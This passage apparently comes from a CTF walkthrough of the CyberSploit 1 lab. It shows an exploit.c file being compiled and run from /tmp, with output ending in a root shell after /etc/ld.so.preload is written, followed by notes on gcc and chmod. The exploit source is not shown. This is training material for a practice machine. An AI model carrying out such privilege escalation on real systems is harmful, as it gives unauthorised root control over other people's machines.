 We'll go to the `/tmp` directory and create a new file named `exploit.c`:

```bash
itsskv@cybersploit-CTF:~$ cd /tmp
itsskv@cybersploit-CTF:/tmp$ nano exploit.c
```

We are using the `/tmp` folder because it’s a commonly accessible location for running temporary exploits. The file is named `exploit.c` because the exploit code is written in C language.

![Nano](/assets/img/bposts/cybersploit-1-walkthrough/nano.png)

### Compiling and Executing the Exploit

```bash
itsskv@cybersploit-CTF:/tmp$ gcc exploit.c -o exploit
itsskv@cybersploit-CTF:/tmp$ chmod u+x exploit
itsskv@cybersploit-CTF:/tmp$ ./exploit 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
```

* `gcc` is the **GNU Compiler Collection**, which compiles C programs. The `-o exploit` flag specifies that the output executable file should be named `exploit`.
* The `chmod u+x exploit` command changes the permissions of the `exploit` file. The `u` stands for the user (the file owner), and `x` grants execute permission to the file. This allows the user to run the `exploit` file.
